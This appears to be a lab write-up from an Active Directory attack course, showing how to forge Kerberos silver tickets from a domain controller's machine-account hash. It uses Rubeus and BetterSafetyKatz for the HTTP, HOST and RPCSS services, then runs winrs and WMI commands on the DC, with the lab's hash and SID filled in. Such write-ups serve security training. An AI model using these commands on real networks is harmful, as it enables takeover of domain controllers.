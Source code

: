 # 🎫 Command execution on other DC via silver ticket on HTTP & WMI

From the information gathered in previous steps we have the hash for machine account of the domain controller (dcorp-dc$). Using the below command, we can create a Silver Ticket that provides us access to the HTTP service of DC

Please note that the hash of dcorp-dc$ (RC4 in the below command) may be different in the lab. You can also use aes256 keys in place of NTLM hash:

In our previous path we had to copy the hash of the machine account of Dcorp-DC. You can identify it as Dcorp-DC$

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>9e81989d7ce17b7bbd3ac1e05dc94e57</p></figcaption></figure>

First we start by encoding "silver" then we throw in rubeus ->

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:9e81989d7ce17b7bbd3ac1e05dc94e57 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```

<figure><img src="../../.gitbook/assets/image (1116).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1117).png" alt=""><figcaption></figcaption></figure>

We can check if we go the correct service ticket but first we need to encode "klist":

We can check if we go the correct service ticket:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn%
```

<figure><img src="../../.gitbook/assets/image (1118).png" alt=""><figcaption></figcaption></figure>

And now we can enter the session:

```
winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd    
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

For accessing WMI, we need to create two tickets - one for HOST service and another for RPCSS. We could also use Rubeus for this but let's use BetterSafetyKatz. Note that we are not using any AV bypass technique here as this is just an example:

Let's start an elevated shell:

(don't forget to use hash of machine user)

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9e81989d7ce17b7bbd3ac1e05dc94e57 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to Inject a ticket for RPCSS:

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:9e81989d7ce17b7bbd3ac1e05dc94e57 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

And if we check what tickets are present with `klist:`

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And now we could tru to run WMI commands on the domain controller:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
